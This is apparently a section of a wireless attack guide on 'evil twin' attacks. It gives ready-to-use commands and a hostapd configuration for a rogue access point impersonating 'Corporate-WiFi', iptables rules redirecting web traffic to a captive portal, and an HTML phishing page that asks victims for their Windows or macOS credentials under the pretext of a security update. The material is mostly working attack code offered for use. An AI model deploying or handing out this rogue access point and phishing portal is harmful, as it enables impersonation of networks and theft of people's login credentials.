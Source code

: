 
## Phase 4: Evil Twin Attacks

### 4.1 Credential Harvesting Portal

```bash
# Set up evil twin AP
sudo hostapd evil_twin.conf &
sudo dnsmasq -C evil_twin_dns.conf &

# Captive portal setup
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:80
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.1.1:443
```

**evil_twin.conf:**
```
interface=wlan1
driver=nl80211
ssid=Corporate-WiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=TempPassword123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
```

### 4.2 Advanced Social Engineering Portal

```html
<!DOCTYPE html>
<html>
<head>
    <title>WiFi Access - Security Update Required</title>
    <style>
        body { font-family: Arial, sans-serif; margin: 50px; }
        .container { max-width: 400px; margin: auto; }
        .warning { color: #d93025; font-weight: bold; }
        input[type="password"] { width: 100%; padding: 10px; margin: 10px 0; }
        button { width: 100%; padding: 10px; background: #1a73e8; color: white; border: none; }
    </style>
</head>
<body>
    <div class="container">
        <h2>Security Update Required</h2>
        <p class="warning">⚠️ Your device requires a security update to access this network.</p>
        <p>Please enter your Windows/MacOS credentials to download the required security patch:</p>
        
        <form action="/submit" method="post">
            <label>Username:</label>
            <input type="text" name="username" required>
            
            <label>Password:</label>
            <input type="password" name="password" required>
            
            <button type="submit">Download Security Update</button>
        </form>
        
        <p><small>This process is required by IT security policy.</small></p>
    </div>
```